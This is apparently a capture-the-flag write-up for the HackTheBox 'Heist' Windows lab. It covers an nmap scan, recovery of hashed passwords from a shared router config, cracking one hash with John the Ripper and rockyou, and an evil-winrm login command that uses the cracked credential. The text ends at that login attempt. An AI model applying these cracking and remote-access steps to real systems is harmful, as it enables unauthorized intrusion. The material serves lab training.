 # Box Name: Heist
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.96.157 -p- -v -T4```

```
Nmap scan report for 10.129.96.157
Host is up (0.40s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49669/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Randomized
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T19:48:09
|_  start_date: N/A
|_clock-skew: -1s

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   339.57 ms 10.10.16.1
2   340.07 ms 10.129.96.157

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 10 20:48:49 2023 -- 1 IP address (1 host up) scanned in 436.02 seconds
```
From our nmap scan we have quite a number of ports opened. We'll start our enumeration today from port 80



# Enumeration (Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2bc80794-25ca-4678-a4fb-5ca4fb869bb6)

We get this login page. Since we don't have any creds lets login as guest

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/58e61a19-7993-42ce-bdbf-8c6d4c00e149)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d10915da-73c3-4987-bd9a-f3993ec38178)

Nice, this is a conversation between user ```Hazard``` and the ```admin```. 

Lets check out the configuration file user ```Hazard``` sent.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ce07dae4-06f7-4a39-96f6-d0f0e693bc2f)

From the above screenshot we can see encrypted passwords for users ```Hazard```, ```rout3r``` and ```admin```.

Lets try to crack the first password

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ nano hash                                                        
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt            
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:01:07 DONE (2023-10-10 21:09) 0.01479g/s 51878p/s 51878c/s 51878C/s stealthy001..stcroix85
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                             
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/heist]
└─$ cat hash
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
We got the password to be ```stealth1agent```. Lets try gain access using winrm

command:```evil-winrm -u hazard -i 10.129.96.157 -p 'stealth1agent' -S```




























